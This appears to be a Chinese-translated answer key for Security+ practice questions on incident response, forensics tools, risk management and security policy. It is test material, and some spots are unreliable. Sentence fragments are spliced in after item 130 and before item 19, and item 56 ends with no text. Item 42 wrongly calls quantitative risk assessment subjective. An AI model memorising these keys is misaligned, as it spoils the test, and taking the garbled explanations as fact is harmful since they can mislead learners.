- **60. B.** 数字取证技术通常用于分析高级持续威胁（APT）行为者为反情报目的所使用的攻击模式、工具和技术。它们有时可用于确定被窃取了什么信息，但这并不是数字取证技术的最常见用途，也不是将其用作培训机制。

- **61. A.** 执法部门通常不是组织事件响应团队的一部分，但事件响应团队通常会与当地执法人员保持关系。安全分析师、管理层、通信人员以及技术专家都通常是核心事件响应团队的一部分。

- **62. A.** 即使你不熟悉 `iptables`，你也可以阅读这些规则并猜测哪条规则包含正确的细节。DROP 对于阻止是有意义的，你应该知道 SSH 将是端口 22 上的 TCP 服务。

- **63. C.** `logger` 是一个 Linux 实用程序，可将信息添加到 Linux syslog。它可以接受文件输入，写入系统日志条目，发送到远程 syslog 服务器，并执行各种其他功能。其他命令不会直接与系统日志交互。

- **64. A.** 事件响应计划并不能阻止事件发生，但它们确实有助于响应者适当反应，为组织准备应对事件，并且可能因法律或合规原因而必需。

- **65. D.** 对驱动器进行消磁使用强磁场擦除它，最不可能导致数据可恢复。已删除的文件通常可以恢复，因为只有在该空间被需要并被覆盖之前，文件索引信息才会被删除。快速格式化以类似方式工作，会留下残余数据，并且被较小文件覆盖的文件也会留下可恢复和分析的数据片段。

- **66. D.** Henry 最有可能使用视频来记录取证过程，这是他获取的取证数据的保管链和来源证明的一部分。易失性顺序有助于确定他首先会对哪些设备或驱动器进行镜像。没有犯罪行为发生，因此在此场景中确定罪责并不相关，并且视频不会确保在取证过程中驱动器上的数据得到保存。

- **67. B.** WinHex 是此列表中唯一的磁盘编辑器。Autopsy 是一个取证分析套件；`dd` 和 FTK Imager 都是成像工具。WinHex 还提供读取 RAID 和动态磁盘、执行数据恢复、编辑物理内存、克隆磁盘、擦除文件和驱动器以及各种其他功能的能力。

- **68. B.** Playbooks 列出了处理事件所需的步骤。Runbook 专注于作为事件响应流程一部分执行操作或流程的步骤。因此，playbook 可能会引用 runbooks。业务连续性（BC）计划和灾难恢复（DR）计划不用于事件响应，但它们用于确保企业保持在线或能够从灾难中恢复。

- **69. C.** 密码通常使用哈希存储，最佳实践是使用特定于密码安全的哈希进行存储。如果 Alaina 知道密码使用了什么哈希算法和选项，她可以加快工作。密码的年龄和长度不是必要的，并且密码不应以加密形式存储——但问题也特别指出它们是哈希密码。

- **70. D.** 从提供的列表来看，应用程序阻止列表最符合 Vincent 的需求。批准列表会阻止其他工具的安装，这可能会妨碍功能，同时使列表维护具有挑战性。数据丢失防护（DLP）解决方案试图防止数据被发送或发布，但不会阻止游戏的安装或下载。内容过滤器可能有帮助，但变通方法很容易，包括通过电子邮件或通过拇指驱动器发送游戏。

- **71. B.** IPSec 不是用于捕获网络流量的工具。sFlow、NetFlow 和 IPFIX 都用于捕获网络流量信息，这将提供 Charlene 所需的信息。

- **72. C.** 系统崩溃或系统转储文件包含崩溃时内存的内容。臭名昭著的 Windows 蓝屏死机会导致内存转储到文件中，从而允许分析内存内容。交换文件（`pagefile`）用于存储不适合内存的信息，但不太可能包含当前正在运行的恶意软件包，因为文件在未使用时会交换出去。Windows 安全日志不包含此类信息，系统日志也不包含。

- **73. C.** Windows `tracert` 命令将显示到远程系统的路由以及沿途的延迟。`traceroute` 是 Linux 中的等效命令。`arp` 命令允许你在 Windows 中查看和修改地址解析协议（ARP）缓存，而 `netstat` 在不同操作系统中具有不同的功能，但通常显示网络使用和状态的统计信息和信息。

- **74. B.** PRTG 和 Cacti 都是网络监控工具，可以提供带宽监控信息。带宽监控器可以帮助识别数据外泄、重度和异常带宽使用以及其他有助于事件识别和事件调查的信息。如果你在这次考试中遇到类似的问题，即使你不熟悉任何一个工具，你也可以利用你对简单网络管理协议（SNMP）用途的了解来识别最可能的正确类别。

- **75. D.** Security+ 考试大纲将审计权条款、监管和管辖问题以及数据泄露通知法律作为规划现场与云取证差异时需要考虑的关键要素。来源证明无论取证活动发生在哪里都很重要。

- **76. A.** 可以推送多种配置更改来帮助移动设备：设置密码、通过组织部署的移动设备管理（MDM）在移动设备上启用全盘加密（FDE），甚至防止某些敏感文件被下载或保存在这些设备上都可以有所帮助。防火墙规则、数据丢失防护（DLP）规则和 URL 过滤器不会阻止被盗设备被访问并导致数据泄露。

- **77. B.** `dig` 的 `@` 命令选择它应该查询的域名系统（DNS）服务器。在这种情况下，它将查询 Google 的 DNS 服务器之一 `8.8.8.8` 以获取 `example.com` 的 DNS 信息。

- **78. C.** Greg 应该使用内置哈希函数将源驱动器的 MD5 或 SHA-1 哈希与使用相同函数在镜像上运行的哈希进行比较。如果它们匹配，他就有有效且完整的镜像。其他答案都不会提供完整驱动器已正确成像的验证。

- **79. B.** Linux `grep` 命令是一个搜索工具，Adam 可以使用它在文件或目录中搜索字符串。`cat` 是 concatenate 的缩写，该命令可用于创建文件、查看其内容或合并文件。`head` 和 `tail` 分别用于查看文件的开头或结尾。

- **80. C.** 分段将网络或系统拆分为与特定需求相符的较小单元。分段可以是功能性的、基于安全的或用于其他目的。移除潜在感染系统是隔离的一个例子，使用防火墙和其他工具阻止感染传播是遏制，而添加安全系统以防止数据丢失是实施安全工具或功能的一个例子。

- **81. B.** 与旨在帮助组织从人为或自然灾害中恢复的灾难恢复计划不同，业务连续性计划侧重于业务中断时如何保持业务运行。因此，Charlene 的 BC 计划将详细说明系统中断时如何保持组织运行。

- 82. C. OpenSSL 可用于使用如下命令生成证书：

  ```
  openssl req -x509 -sha256 -nodes -days 365 -newkey rsa:2048 -keyout privateKey.key -out certificate.crt
  ```

  无其他列出的工具可用于生成证书。

- 83. A. 列出的唯一密码破解器是 John the Ripper。John 接受自定义词表，这意味着 Cameron 可以创建并使用自己的词表，如选项 A 所示。

- 84. A. Autopsy 没有内置创建磁盘镜像的能力。相反，它依赖第三方工具进行采集，然后导入磁盘镜像和其他媒体。Autopsy 具有内置的时间线生成、镜像过滤和识别、通信可视化等众多功能。

- 85. C. 许多云服务提供商不允许客户驱动的审计，无论是由客户自己还是由第三方进行。它们通常也禁止对其生产环境进行漏洞扫描，以避免服务中断。相反，许多提供商会以服务组织控制（SOC）报告或类似审计工件的形式提供第三方审计结果。

- 86. B. 网络杀伤链在利用阶段之后进入权限提升阶段。完整的杀伤链为：1）侦察，2）入侵，3）利用，4）权限提升，5）横向移动，6）混淆/反取证，7）拒绝服务，8）数据外泄。

- 87. D. 在列出的工具中，只有 Metasploit 是漏洞利用框架。Cuckoo 是一个恶意软件测试沙箱，theHarvester 是一个开源情报收集工具，而 Nessus 是一个漏洞扫描器。像 Metasploit、BeEF 和 Pacu 这样的工具都是漏洞利用框架的实例。

- 88. A. 安全编排、自动化和响应（SOAR）环境的剧本是一组规则，这些规则决定当 SOAR 使用其收集或接收的数据识别到事件发生时，将执行哪些操作。

- 89. B. Security+ 考试大纲使用六步事件响应流程：准备、识别、遏制、根除、恢复和经验教训。

- 90. D. 灾难恢复计划解决在人为或自然灾害期间该做什么的问题。洪水完全淹没数据中心将需要付出巨大的恢复努力，Gurvinder 需要一个可靠的灾难恢复计划——或许还需要尽快更换数据中心位置！COOP，即连续性运营计划，是美国政府机构所需的，但对企业并非必需。业务连续性计划会涵盖如何保持业务运行，但它无法覆盖这种规模自然灾害中的所有需求，而且洪水保险计划不是 Security+ 考试中使用的术语。

- 91. C. `pathping` 结合了 `ping` 和 `tracert`/`traceroute` 的功能，有助于识别所使用的路径以及延迟问题出现在哪里。它内置于 Windows，正好可用于 Frank 需要完成的故障排除。他也可以使用 `ping` 和 `tracert`/`traceroute` 来执行该任务，但他需要花费更多时间依次使用每个工具来获取 `pathping` 在单一界面中就能提供的相同信息。`netcat` 虽然对许多任务有用，但并不太适合这项任务。

- 92. A. `dnsenum` 工具可以执行许多与域名系统（DNS）相关的功能，包括查询 A 记录、名称服务器和 MX 记录，以及执行区域传送、对主机和子域进行 Google 搜索，以及网络范围反向查找。`dig` 和 `host` 对 DNS 查询很有用，但无法提供如此广泛的功能，而 `dnscat` 是为这道题虚构的。

- 93. C. Jill 希望系统上尽可能少地发生变化，因此她应指示用户不要保存任何文件或进行任何更改。重新启动系统不会创建内存转储，并且如果补丁等待安装或在重启期间有其他更改发生，可能会导致新文件被写入或被更改。关闭安全删除或进行其他更改不会影响在该设置更改之前已被删除的文件。

- 94. C. 在网络杀伤链模型中，反取证活动位于横向移动之后。这里有助于记住：攻击者完成攻击后，会试图隐藏其活动的痕迹，然后在模型中可能继续进行拒绝服务或数据外泄活动。

- 95. B. Security+ 考试大纲使用的事件响应流程是准备、识别、遏制、根除、恢复和经验教训。Veronica 应进入经验教训阶段。

- 96. C. 快速格式化仅仅删除文件索引，而不是移除并覆盖文件，因此不适合用于数据清除。物理销毁将确保数据不可读，消磁和零覆写也是如此。

- 97. D. Microsoft Office 将文件创建者的姓名、编辑者、创建和修改日期以及其他有用信息存放在存储于每个 Office 文档中的文件元数据中。Bart 可以直接打开该 Office 文档查看这些信息，也可以使用取证文件元数据工具来查看。文件名可能包含创建者的名字，但这只有在其创建者主动包含时才有可能。Microsoft Office 不会创建或维护日志，而 Windows 的应用程序日志也不包含这些信息。

- 98. B. Windows Defender 防火墙采用按应用程序模型运作，可以根据系统处于受信任的专用网络还是公共网络来过滤流量。Nathaniel 应该在防火墙中按名称允许 Chrome，这将允许其发送流量，而无需指定端口或协议。

- 99. B. `dnsenum` Perl 脚本内置了相当多的域名系统（DNS）枚举功能，包括主机、名称服务器和 MX 记录收集；区域传送；对域名的 Google 抓取；使用文件进行子域暴力破解；以及 `Whois` 自动化和对最大 C 类规模的网络进行反向查找。虽然你可以手动使用 `dig`、`nslookup` 甚至 `netcat` 来执行其中许多功能，但 `dnsenum` 是列表中唯一的自动化工具。

- 100. B. 构建时间线，尤其是来自多个系统的时间线，依赖于准确设置的系统时钟或添加手动配置的偏移量。磁盘哈希和获取不需要准确的系统时钟，即使没有准确的时钟也可以查看文件元数据，尽管准确的时钟信息或了解偏移量对分析可能很有用。


101. B. 数据泄露通知法律通常规定了在需要发出通知前允许经过的最长时间。它们通常还包含一个通知阈值，即在必须通知州或其他当局之前，受影响个人数量的上限。这些法律不包含可被通知人数的上限，也通常不会对警方参与取证调查或认证类型/级别提出具体要求。

102. C. 能够扫描和检查电子邮件中是否存在 SSN 样式数据的数据丢失防护（DLP）工具是这里列出的最有效的工具。Naomi 可能希望将该工具设置为阻止所有可能包含 SSN 的电子邮件，然后手动审查这些邮件，以确保不再有邮件外发，同时允许合法邮件通过。入侵检测系统（IDS）可能看起来像是一个有吸引力的答案，但 IDS 只能检测流量，而不能阻止流量，这将允许 SSN 流出组织。反恶意软件和防火墙不会阻止此类事件。

103. C. 电子邮件标头包含大量元数据，包括电子邮件的发送来源。`from:` 字段列出发件人，但并不指明电子邮件实际发送自何处。`to:` 字段列出电子邮件发送给谁，而页脚不用于存储电子邮件的此类信息。

104. A. 司法管辖边界存在于州与地方之间，以及国家之间，这使当地执法部门在许多情况下难以在其管辖范围外执行搜查令并从组织获取数据。Venue（审判地）用于描述法律案件进行的地点。立法可能会或可能不会产生影响，而数据泄露法律不太可能影响这一点，但会指导 Henry 何时需要发出泄露通知。

105. A. Olivia 应该使用 John the Ripper。尽管 John the Ripper 和像 Ophcrack 这样的彩虹表工具都可以用于破解密码，但 John the Ripper 能更好地展示密码是如何被破解的，而彩虹表工具只会确定密码哈希是否可以被破解。Crack.it 和 TheHunter 是为这道题虚构的。

106. B. 联邦紧急事务管理局（FEMA）隶属于国土安全部，负责连续性运营规划（COOP），这是联邦机构的一项要求。美国农业部（USDA）、国家安全局（NSA）和联邦调查局（FBI）不负责连续性运营规划。

107. B. 可以使用 PowerShell 查询 Windows 配置数据，使 Elaine 能够编写脚本来收集安全配置数据。Bash 是用于 Linux 系统的 shell。尽管 Windows 系统现在可以在 Linux 子系统中运行 Bash，但它并非默认安装。安全外壳（SSH）用于远程 shell 访问，Python 也可以使用，但需要专门为此目的安装，并且默认情况下不可用。

108. C. 列出的最佳选项是使用 Wireshark 捕获手机流量。在某些情况下，该流量可能是加密的，Ramon 可能需要采取额外步骤来解密数据。呼叫管理器日志和会话发起协议（SIP）日志不包含对话的完整音频。

109. C. NXLog 是一种日志收集和集中化工具。IPFIX、NetFlow 和 sFlow 都收集有关网络流量的数据，包括源地址、目标地址、端口、协议以及已发送的数据量。

110. A. Pete 将系统置于一个无法访问外部网络的独立逻辑网络段中，从而隔离了该系统。某些恶意软件能够检测系统是否失去网络连接，而 Pete 可能希望通过网络进行取证或监视发送出站流量的尝试，这意味着仅仅断开系统连接可能无法满足他的需求。遏制涉及限制攻击的传播或影响，分段根据规则或安全分组将系统分组，而根除是事件响应（IR）过程的一部分，在该过程中移除事件或攻击的组件。

111. C. 虚拟机取证通常依赖于使用底层虚拟化环境的快照功能获取的快照。这将捕获系统的内存状态和磁盘内容，并且可以在独立系统上运行或使用取证工具进行分析。

112. B. `tcpreplay` 工具专门设计用于将 PCAP 捕获文件回放到网络中，从而允许进行这种类型的测试。`hping` 可用于构造数据包，但它并非设计用于回放捕获文件。`tcpdump` 用于捕获数据包，但同样它不是回放工具，而 Cuckoo 是用于测试和识别恶意软件包的沙箱工具。

113. C. Windows 会创建一个转储文件，其中包含活动内存的所有内容，以便分析崩溃。

114. D. 基于安全或风险等级对网络进行分段有助于确保攻击和入侵被限制在具有相似安全需求要求的类型系统或设备上。隔离会将设备或系统从网络或其他系统接触中移除。碎片化和分层不是 Security+ 考试中使用的术语。

115. A. 为每个驱动器标记有助于盘点并确保驱动器得到正确跟踪，且保管链可以得到维护。拍照可能有助于识别驱动器，但标记和库存控制更为重要。驱动器不会按易失性顺序标记，因为易失性顺序与取证目标的类型相关，而非特定驱动器。访谈可能有用，但并非总是对每台被镜像的机器的所有者进行。

116. B. 取证证据的来源包括保管链，包括证据、设备或镜像的所有权和获取情况。电子取证是为诉讼、调查和记录请求以电子格式进行发现的过程。管辖权是法律或执法机构拥有管辖权的区域或地区。易失性是指设备或组件发生变化的可能性。

117. B. Volatility 框架是专为从实时系统获取随机存取内存（RAM）而设计的工具。Autopsy 是用于驱动器分析和取证调查的取证工具，`dd` 用于镜像驱动器，而 `netcat` 是用于在网络间传输数据或建立系统连接的工具。

118. D. Wireshark 是一款网络协议分析器和捕获工具，可用于此类情况下的故障排除。事实上，作为防火墙规则故障排除的一部分，安全从业人员经常被要求验证流量是否被正确接收。Randy 可能希望在通信的两端捕获流量，以确保客户端正确发送流量，然后将其与另一端接收到的——或丢失的——相同流量进行匹配。`tracert` 和 `traceroute` 有助于验证流量所走的路由，但不会显示 HTTPS 数据包是否被阻止，而 Sn1per 是一个允许自动化渗透测试的渗透测试框架。

119. B. 列出的最旧且功能最弱的工具是 `syslog`，即 Linux 和 Unix 系统的原始系统日志工具。其他三个选项具有高级功能，这意味着在需要灵活性和可靠性时它们会被更广泛地实施。

120. A. 此列表中唯一可用于构造数据包的工具是 `hping`。Susan 可以通过 `hping` 构建必要的数据包，然后将其发送到她网络中的动态主机配置协议（DHCP）服务器，同时使用她的入侵防御系统（IPS）进行监控。她可能还想使用 Wireshark 或 `tcpdump` 捕获所有流量，以观察两端发生了什么！

121. D. SQL 注入尝试作为 HTTP 或 HTTPS 请求发送到 Web 服务器，这意味着 Valerie 将能够在 Web 服务器日志中看到这些攻击。如果有的话，域名系统（DNS）日志不会显示这些。身份验证日志显示登录情况，而不是 Web 或 SQL Server 查询或请求。与 Windows 不同，Linux 没有安全日志文件，尽管某些系统有安全日志。

122. A. 如果证书的私钥和密码短语被泄露，证书应被吊销。需要颁发新证书，但证书不可信，吊销是妥善处理该问题的第一步。更改密码无济于事，而更改私钥或公钥将需要新证书。

123. C. 法律保留通知会告知公司必须保存和保护与案件相关的信息。其他项目均不是此过程中使用的术语。

124. B. `netstat` 可以显示所有活动连接，使用 `-a` 标志即可。`netstat` 不提供 `-c` 命令标志。`route` 命令用于修改和显示系统的路由表。`hping` 是一款数据包分析器和数据包构建工具，常用于渗透测试和攻击中构造特定数据包。

125. B. 隔离区设置会将恶意或可疑文件放置在安全位置，并将其保留在那里，直到设定的时间段过去或管理员采取行动处理它。这可以让你进一步分析文件，或在识别错误或文件因其他目的而需要时将其恢复。遏制用于限制事件或攻击的范围，隔离使系统或设备无法连接到或访问其他系统或设备，而删除文件不会将其保留。

126. D. 尽管 Linux 系统可以使用文件作为交换空间，但常见解决方案是使用单独的分区作为交换空间。

127. A. 跟踪多个驱动器需要仔细的盘点、证据处理日志记录以及对驱动器的标记，以确保它们是正确的驱动器，并在取证调查过程中得到跟踪。Marco 应仔细标记每个驱动器，并确保在整个调查过程中使用这些标记。

128. D. `netcat` 的 `-v` 标志将其设置为详细模式。这意味着 Isaac 已尝试使用 `netcat` 连接到 `10.11.10.1` 上的 1 到 1024 的每个端口。由于没有其他标志或选项，它将简单地尝试连接，然后提供有关发生情况的详细结果，从而实现简单但有效的端口扫描。

129. B. Tony 最好的选择可能是遏制。他可能希望将该位置从企业网络中移除或阻止大部分流量，直到他能更深入地了解发生了什么。如果他隔离整个站点，可能会中断关键业务运营，而分段更适合在事件发生前进行。

130. C. 无论位置如何，审计权条款通常被接受为数据中心托管和设施租赁合同中服务和租赁合同的一部分。然而，云服务提供商不太可能签署审计权合同。相反，他们可能会向客户甚至潜在客户提供第三方审计数据。

验证特定行为的准确性。可接受使用政策规定了在使用技术时组织中允许的操作和做法。应有的注意是合理一方为避免对他人造成伤害而付出的努力。它是个人在特定条件下合理预期应做出的判断、注意、决心和活动的程度。

- 5. A. 可接受使用政策（AUP）是一份文件，说明用户在公司网络或互联网上可以或不可以访问的内容。清洁办公桌政策确保所有敏感/机密文件在不使用时从终端用户工作站移除并上锁。强制休假政策由公司用来通过让熟悉职责的第二人帮助发现任何非法活动来检测欺诈。工作轮换是一项描述员工在不同任务之间轮换的做法的政策。工作轮换可以帮助检测欺诈，因为员工不能长时间执行相同的操作。

- 6. C. PCI-DSS，即支付卡行业数据安全标准，是由信用卡厂商强制执行的安全标准。支付卡行业安全标准委员会负责对标准的更新和更改。GDPR，即通用数据保护条例，是欧盟（EU）数据隐私和安全方面的标准。COPPA 是《儿童在线隐私保护法》，是一项美国联邦法律。CIS 是互联网安全中心，不是法律或法规。

- 7. A. 公司将使用强制休假政策来检测欺诈，通过让熟悉职责的第二人帮助发现任何非法活动。清洁办公桌政策确保所有敏感/机密文件在不使用时从终端用户工作站移除并上锁。保密协议（NDA）保护敏感和知识产权不落入错误手中。继续教育是对成年学习者进行广泛的后中学学习活动和项目培训的过程。公司将利用继续教育培训员工了解新威胁，并重申当前政策及其重要性。

- 8. B. 上锁的柜子和抽屉是最好的解决方案，因为它们允许个人锁定抽屉，并确保单一钥匙的访问不会像部门门锁或空间的接近卡那样允许广泛访问文件。入职是向公司身份和访问管理系统添加员工的过程，这不会有助于保护文件，但可能会教授这样做的流程。

- 9. D. 定量风险评估是将数值分配给事件发生的概率以及事件影响的过程。变更管理是管理对网络所做的配置更改的过程。漏洞评估试图识别、量化并对系统中的弱点进行排名。定性风险评估是使用低、中、高等评级对哪个风险构成最大危险进行排名的过程。

- 10. D. 谅解备忘录（MOU）是一种通常不具有法律约束力的协议。这种协议旨在互利互惠，而不涉及法院或金钱。服务水平协议（SLA）定义了客户对服务提供商期望的服务水平。服务水平定义应在每个领域具体且可衡量。业务合作协议（BPA）是合作伙伴之间的法律协议。

依赖某一个个人提供安全专业知识，如果该员工不满并决定损害公司，就会有风险。当多名员工了解公司的安全态势时，从不满员工的攻击中恢复起来会更容易。

- 19. **A.** 清洁办公桌政策确保敏感信息和文件不会在下班后留在办公桌上，并要求员工将这些文件放置到暴露较少或更安全的位置。背景调查、继续教育和工作轮换并不能防止留在办公桌上的机密信息被泄露。

- 20. **A.** 当用户注册账户时，他们在注册前会输入网页上提供的字母和数字。这是威慑控制的一个例子，因为它阻止了机器人注册并证明这是一个真实的人。检测控制在入侵发生时检测入侵并揭露违规行为。补偿控制用于满足对当前难以或不切实际实施的安全措施的要求。消磁是通过改变磁场从磁性存储介质中删除数据的方法。

- 21. **D.** 停车政策通常概述员工和访客的停车规定。这包括为员工分配停车位的标准和程序，并不是组织安全政策的一部分。相反，它是运营或业务政策。可接受使用政策描述了用户使用组织物理和知识产权资源的限制和准则。这包括允许或限制工作时间使用个人电子邮件。社交媒体政策定义了员工应如何使用社交媒体网络和应用程序，如 Facebook、Twitter、LinkedIn 等。它可能对公司的声誉产生不利影响。密码策略定义了创建密码的复杂性。它还应定义弱密码以及用户应如何保护密码安全。

- 22. **C.** 专有数据是一种机密信息形式，如果信息被泄露，可能对公司的竞争优势产生严重影响。高是内部分配给数据的通用标签，表示数据在公司外部暴露的风险程度。绝密标签通常用于政府系统中，数据和访问可能会根据分配的类别授予或拒绝。低是内部分配给数据的通用标签，表示数据在公司外部暴露的风险程度。

- 23. **C.** 反病毒软件用于保护计算机系统免受恶意软件侵害，并不是物理安全控制。物理控制是为降低对物理财产造成伤害的风险而采取的安全措施。这包括保护人员、硬件、软件、网络和数据免受可能造成损坏或损失的物理行为和事件。

- 24. **A.** 定量风险评估是为事件发生的概率及其影响分配数值值的过程。定性风险评估是确定哪种风险最危险的过程，例如低、中、高。业务影响分析（BIA）用于评估如果关键系统运行中断，业务可能遭受的影响。这种中断可能是事故、紧急情况或灾难造成的。威胁评估是识别和分类不同威胁的过程，例如环境和人为威胁。它还试图确定威胁可能产生的潜在影响。

- 25. **D.** 不披露协议（NDA）防止敏感和知识产权数据落入错误的人手中。NDA 是公司与第三方供应商之间的一项法律合同，约定不得根据协议披露信息。发送的加密数据如果第三方供应商拥有适当的证书或密钥，仍可被解密，但不会限制对数据的访问。违反 NDA 构成未经授权的数据共享，而违反特权用户基于角色的意识培训与共享专有信息无关。

- 26. **A.** 如 CCTV 之类的检测控制在入侵发生时检测入侵并有助于揭露违规行为。政策是管理控制。防火墙和入侵防御系统（IPS）设备是技术控制。技术控制是通过技术应用，也可能是威慑性、预防性、检测性或补偿性的。

- 27. **C.** 利润和损失的分享，以及合伙人的增减，以及每个合伙人的职责，通常包含在 BPA（商业合作伙伴协议）中。公司与互联网服务提供商等各方之间的期望通常在服务等级协议（SLA）中找到。期望包括合同服务期间提供的服务水平。SLA 将提供明确的手段来确定特定功能或服务是否已按照商定的服务水平提供。与互联 IT 系统相关的安全要求通常在互联安全协议或 ICA 中找到。

- 28. **D.** 备用发电机是一种补偿控制——当由于环境限制而无法使用原始控制时，替代控制取代原始控制。防火墙被认为是一种预防控制，保安被认为是一种物理控制，而 IDS（入侵检测系统）被认为是一种检测控制。

- 29. **A.** 预防控制阻止行动发生——在此场景中，防止未经授权的用户在用户离开时获得对网络的访问。纠正控制旨在纠正情况，威慑控制用于阻止安全漏洞，检测控制旨在揭露违规行为。

- 30. **C.** 工作轮换使个人能够看到组织的各个部分以及其运作方式。它还消除了公司依赖某一个个人提供安全专业知识的需要，如果该员工不满并决定损害公司。

当多名员工了解公司的安全态势时，从不满员工的攻击中恢复起来会更容易。职责分离是指需要多于一个人完成任务的概念，从而使参与的其他人能够注意到问题。强制休假政策由公司用来检测欺诈，通过让熟悉职责的第二个人在通常执行这些职责的人不在办公室时帮助发现任何非法活动。入职是指将员工添加到公司的身份和访问管理系统或其他基础设施中的过程。

- 31. **B.** 数据最小化是确保仅收集和维护业务功能所需数据的过程。Tony 应确保其组织正在最小化收集的数据。数据屏蔽会编辑数据，但不会减少收集的数据量。令牌化用可在查找表中查找的唯一标识符替换敏感值。匿名化会删除从数据中识别个人的能力，但相当困难。

- 32. **A.** 风险规避是一种策略，旨在转移威胁以避免损害事件造成的昂贵和破坏性后果。它还试图最大限度地减少可能构成威胁的漏洞。风险登记册是一份文件，用于跟踪组织的风险以及有关风险的信息，如谁拥有它、是否正在补救以及类似细节。风险接受是一种认识、识别并接受风险的策略，该风险足够不可能发生或影响有限，以至于不需要纠正控制。风险缓解是公司实施控制以减少系统中的漏洞或弱点时。它还可以减少威胁的影响。

- 33. **D.** 系统应在四小时内恢复，最多损失一天的数据。RTO（恢复时间目标）是在灾难后必须在业务连续性范围内恢复流程或服务的时间量。它定义了在流程中断通知后恢复所需的时间。恢复点目标或 RPO 指定在数据丢失量可能超过组织对数据丢失的最大容忍度之前可以经过的时间量。

- 34. **A.** 数据保留政策定义了组织将保留数据多长时间。移除不使用的敏感文件是清洁办公桌政策。管理配置更改的正式流程是变更管理，而谅解备忘录由描述双方相互协议的法律文件组成。

- 35. **B.** ALE（年度损失期望）是 ARO（年度发生率）和 SLE（单次损失期望）的乘积，数学上表示为 `ALE = ARO × SLE`。单次损失期望是任何单次损失的成本，数学上表示为 `SLE = AV（资产价值）× EF（暴露因子）`。

- 36. **B.** 互联网安全中心（CIS）基准提供了如何保护操作系统、应用程序或其他涵盖技术的建议。Michelle 将找到 Windows 10 特定的安全配置指南和技术。

- 37. **A.** 如数据备份之类的预防控制是主动的，用于在安全漏洞或关键服务中断发生之前避免它们。安全摄像头、烟雾探测器和门报警器是检测控制的例子。检测控制在入侵发生时检测入侵并揭露违规行为。

- 38. **C.** 风险转移是将风险转移给托管提供商的行为，后者承担恢复和修复的责任，或通过购买保险来涵盖风险产生的成本。风险接受是一种认识、识别并接受风险的策略，该风险足够不可能发生或影响有限，以至于不需要纠正控制。风险缓解是公司实施控制以减少系统中的漏洞或弱点时。它还可以减少威胁的影响。风险规避是消除可能增加特定风险的漏洞，以便完全避免它。

- 39. **D.** 预防控制用于在安全漏洞或关键服务中断发生之前避免它们。管理控制是通过政策、程序和指南定义的。补偿控制用于满足对当前难以或不切实际实施的安全措施的要求。威慑控制用于阻止安全漏洞。

#### 40. C.


平均故障间隔时间（MTBF）是一种用于衡量硬件组件可靠性的指标。MTTR（平均修复时间）是指故障设备或组件被修复或更换所需的平均时间。RPO（恢复点目标）是指公司可以容忍两次备份之间数据丢失且无法恢复的时间段。ALE（年度损失预期）等于年发生率（ARO）乘以单次损失预期（SLE）。

### 41. C.

单点故障（SPOF）是指能够导致整个系统瘫痪并无法工作的单一弱点。云计算允许通过互联网交付托管服务。负载均衡将流量或其他负载分散到多个系统或服务器之间。虚拟化使用一个系统来托管虚拟机，这些虚拟机共享底层资源，如内存、硬盘和 CPU。

### 42. A.

定量风险分析需要复杂的计算，并且更加耗时，因为它需要详细财务数据和计算。定量风险评估通常是主观的，需要对系统和基础设施有专业知识，而两种评估类型都能为基于风险的问题提供清晰答案。

### 43. D.

保管人根据安全策略配置数据保护。当地社区银行是数据所有者，而不是 Leigh Ann。Leigh Ann 是网络管理员，不是用户，并且“高级用户”并不是业内标准的安全角色。

### 44. B.

风险接受是一种策略，即识别、确认并接受一个风险，该风险足够不可能发生或影响有限，因此没有必要采取纠正性控制措施。风险缓解是指公司实施控制措施以减少系统中的漏洞或弱点，也可以降低威胁的影响。风险规避是指移除可能增加特定风险的漏洞，从而完全避免该风险。风险转移是指将风险转移给其他组织，例如保险提供商或托管公司，由它们承担恢复和重建的责任，或者通过购买保险来覆盖风险产生的成本。

### 45. A.

数据所有者会为数据分配“绝密”等标签。保管人为数据分配安全控制措施。隐私官确保公司遵守隐私法律和法规。系统管理员负责 IT 系统的整体运行。

### 46. C.

员工可能会泄露公司的机密信息。泄露公司信息可能会使公司的安全状况面临风险，因为攻击者可以利用这些信息对公司发起攻击。获取计算机的 MAC 地址与社交媒体网络风险无关。获取计算机的 IP 地址与社交媒体网络风险无关。员工通常可以轻松表达对公司的担忧。只要员工不泄露任何机密信息，这与社交媒体网络风险无关。

### 47. C.

职责分离是指完成一项任务需要不止一人参与的概念。背景调查是在考虑聘用潜在员工时执行的过程。岗位轮换让员工能够了解组织的各个部分以及组织的运作方式。它还消除了公司依赖某一个人提供安全专业知识的需要，以防该员工心怀不满并决定损害公司。当多名员工了解公司的安全态势时，从心怀不满员工的攻击中恢复会更容易。共谋是双方或多方之间达成的协议，旨在欺诈他人的权利或获取法律禁止的东西。

### 48. B.

ALE（年度损失预期）＝ SLE（单次损失预期）× ARO（年化发生率）。SLE 等于 `$750,000`（2,500 条记录 × `$300`），ARO 等于 5%，因此 `$750,000` 乘以 5% 等于 `$37,500`。

### 49. C.

RPO（恢复点目标）规定了允许的数据丢失量。它是指中断期间可以过去的时间量，在此之前，该期间丢失的数据量不得超过业务连续性计划的最大可接受阈值。MTBF（平均故障间隔时间）是对设备或组件的评级，用于预测两次故障之间的预期时间。MTTR（平均修复时间）是指故障设备或组件被修复或更换所需的平均时间。ARO（年发生率）是对威胁在一年时间内发生的估计可能性的比率。

### 50. D.

数据保留策略规定了如何根据各种类型存储数据，例如存储位置、数据应保留的时间长度以及应使用的存储介质类型。清桌政策确保所有敏感/机密文件在未使用时从终端用户工作站上移除并锁存起来。AUP（可接受使用政策）描述了用户使用组织物理和智力资源的限制和指导方针，包括允许或限制在工作时间使用个人电子邮件。安全策略定义了如何保护物理和信息技术资产。该文档应随着技术和员工需求的变化而不断更新。

### 51. C.

入职是将员工添加到公司身份与访问管理系统的过程。离职是将员工从公司身份与访问管理系统中移除的过程。系统所有者是负责管理一个或多个系统的人，可能包括修补和更新操作系统。“执行用户”是本题虚构的角色。

### 52. B.

职责分离可归类为一种运营控制，旨在通过确保个人无法利用某个流程并隐藏其正在造成的错误或问题来最大程度地减少欺诈。它不是物理控制或技术控制，并且问题中没有任何内容表明这是在弥补另一个控制所留下的空白。

### 53. D.

《通用数据保护条例》（GDPR）不包括匿名权，尽管组织必须能够提供安全保护措施，这些措施可能包括在适当情况下的匿名化。

### 54. D.

NIST RMF 的流程是：

- 1. 准备
- 2. 系统分类
- 3. 选择控制措施
- 4. 实施控制措施
- 5. 评估控制措施
- 6. 系统授权
- 7. 监控控制措施

### 55. B.

安全项目管理员通常会使用不同类型的培训，以确保对培训反应和回应各不相同的受训者能够获得对他们有帮助的培训。可能还有其他有效原因，但这是培训多样性的最常见原因。

### 56. A.

